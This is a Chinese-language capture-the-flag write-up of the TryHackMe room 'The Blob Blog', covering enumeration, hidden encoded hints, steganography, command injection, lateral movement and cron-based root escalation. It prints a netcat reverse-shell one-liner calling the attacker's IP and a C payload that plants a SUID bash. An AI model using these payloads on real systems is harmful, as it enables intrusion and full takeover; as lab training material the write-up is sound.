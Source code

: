 # The Blob Blog

你能把盒子扎根吗？

---

比赛比完了，结果还可以，满意。当然这一切也少不了TryHackMe的功劳，thm中等难度的房间我自认为打的差不多了，准备回去复习红队，然后挑战大boss, hololive域渗透

## 端口扫描

循例 nmap

![在这里插入图片描述](https://img-blog.csdnimg.cn/683a1765f9f8421da7dc3133b5264fe9.png)

## Web枚举

进入80，发现是apache默认页面

查看页面源代码，发现一串长得跟base64一样的字符串

![在这里插入图片描述](https://img-blog.csdnimg.cn/28d0fd40bcd0456ea6781b1ba65a3f42.png)

Cyberchef解码，见面很多次了，brainfuck

![在这里插入图片描述](https://img-blog.csdnimg.cn/0323b354a5a64caa9b7f7e19f50d7af4.png)

在线解码

![在这里插入图片描述](https://img-blog.csdnimg.cn/409ca41df78b4c0cbb48ef9d5926322e.png)

这段话非常明显，暗示我们去端口敲门

使用nc一句话

![在这里插入图片描述](https://img-blog.csdnimg.cn/1816175568d74f57b9a54411aec81e3f.png)

nmap再扫一次，可以看到多了好几个端口

![在这里插入图片描述](https://img-blog.csdnimg.cn/284e1c7644cf4776ab2e068d757063ab.png)

在同样的地方，页面源代码下面还有一句话

![在这里插入图片描述](https://img-blog.csdnimg.cn/92f68b2677aa441da5e0a60edb20cb51.png)

cyberchef解码，发现是base58

![在这里插入图片描述](https://img-blog.csdnimg.cn/772c661f9ac04728b50dcb3f0aa1dd56.png)

在445端口下的http，主页也是默认页面，但页面源代码给出了一组明文凭据

![在这里插入图片描述](https://img-blog.csdnimg.cn/9f20eda2d962452c81e69693bf91ff4f.png)

先到8080端口再看看

也是apache默认页面，扫一下

![在这里插入图片描述](https://img-blog.csdnimg.cn/28c8e9b4cf5f48b49baebda328b0d4c2.png)

是一个登录页面，先尝试刚刚获得的凭据

![在这里插入图片描述](https://img-blog.csdnimg.cn/3ad751f5eb9e4ca0935b80291a36ce2e.png)

似乎登录不进去


## FTP枚举

使用刚刚获得的第二组凭据，登录ftp

![在这里插入图片描述](https://img-blog.csdnimg.cn/d12525dd659b48e195af8dea64afe5a2.png)

有个jpeg，下载

![在这里插入图片描述](https://img-blog.csdnimg.cn/fc3f7ecb1d294918a09e9b6801c52334.png)

steghide，使用刚刚获得的第一组凭据，成功提取一个.txt

![在这里插入图片描述](https://img-blog.csdnimg.cn/867be02f23f14b2b8dd16fdc92fb7a9f.png)

查看out.txt, 又提供了一组凭据和一个疑似web中的路径

![在这里插入图片描述](https://img-blog.csdnimg.cn/7db4078dd4094863a912b90897250ba4.png)

这组凭据无法登录ftp、ssh

## Web枚举 - 2

跟着指引，查看刚刚获得的目录路径

![在这里插入图片描述](https://img-blog.csdnimg.cn/c0f8e7ea234b4a2598cdf51385887ed0.png)

很显然，这引导我们去刚刚的blog，并且使用刚刚获得的zcv的凭据登录

但是登录依然失败

为了节省时间看一眼wp，这个凭据是经过vigenere加密

![在这里插入图片描述](https://img-blog.csdnimg.cn/437ec0fe135a4af98fa0e0a3042b953a.png)

成功登录进来

![在这里插入图片描述](https://img-blog.csdnimg.cn/b763691a4ed74498bc7205d3a6c60271.png)

## Reverse Shell

当我尝试whoami的时候，再查看review，会发现它执行了这个命令

![在这里插入图片描述](https://img-blog.csdnimg.cn/d4f562d3c60c4f3b8fa35911581ae353.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/c307fe2b74f541338e1a66a5f1e135de.png)

那就直接尝试反向shell，payload：

	mkfifo /tmp/f1;nc 10.9.62.153 8888 < /tmp/f1 | /bin/bash > /tmp/f1

![在这里插入图片描述](https://img-blog.csdnimg.cn/21ece4229cfa4434a23303ffcf666e04.png)

getshell

## 横向移动

就当我在到处寻找有用的信息的时候，突然有一个疑似定时任务的消息出现在我的shell中

![在这里插入图片描述](https://img-blog.csdnimg.cn/79ef4f43e4ba4d11bad67287220fee88.png)

这使得我立即查看/etc/crontab

![在这里插入图片描述](https://img-blog.csdnimg.cn/2ebca86333e648adb607e8cd0549d551.png)

好吧，我们现在还没有权限进入bobloblaw

find suid，发现一个可疑的文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/367735d154984e24b0a17411bc8c22cc.png)

当我使用ltrace的时候发现这么一句话

![在这里插入图片描述](https://img-blog.csdnimg.cn/383af28f7b1d45b8bec09ece8cb13f8d.png)

刚刚在web的blog页面上可以看到有1-6个，尝试一下之后成功移动过去

![在这里插入图片描述](https://img-blog.csdnimg.cn/f19cf87d082c42f0bbee3f2e5cc0a1de.png)

user flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/1fff4f442f484cf9bdee0d04e3cabe80.png)

## 权限提升

虽然我们知道了cronjob有东西，但是.uh_oh文件夹我们依然没有权限访问

我想找到一直在shell弹出那句话的定时任务进程

这里传个pspy64过去进行分析，发现这么一行信息

![在这里插入图片描述](https://img-blog.csdnimg.cn/6fcb8e52a7b04de89ff6998f61f556b7.png)

它以root权限运行，并且会定时的编译boring_file.c并执行，而恰好该文件我们所有

将该c文件传回攻击机

![在这里插入图片描述](https://img-blog.csdnimg.cn/5d3896f1bbd34c8396b66be91f6e5116.png)

修改内容：

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
	setuid(0);
	setgid(0);
	system("cp /bin/bash /tmp/bash;chmod +s /tmp/bash");
	return 0;
}
```

将其base64

![在这里插入图片描述](https://img-blog.csdnimg.cn/21c6ff7250ef4400ad0a5846c7563592.png)

写入.boring_file.c

![在这里插入图片描述](https://img-blog.csdnimg.cn/bf261deb18f74b428664196fbdba3373.png)

静等一会，它出现了

![在这里插入图片描述](https://img-blog.csdnimg.cn/f895aec3977e4ae88d4f98aae2b44fcb.png)

利用

![在这里插入图片描述](https://img-blog.csdnimg.cn/48e78cd263c24193bf7e6e06605905cc.png)

getroot
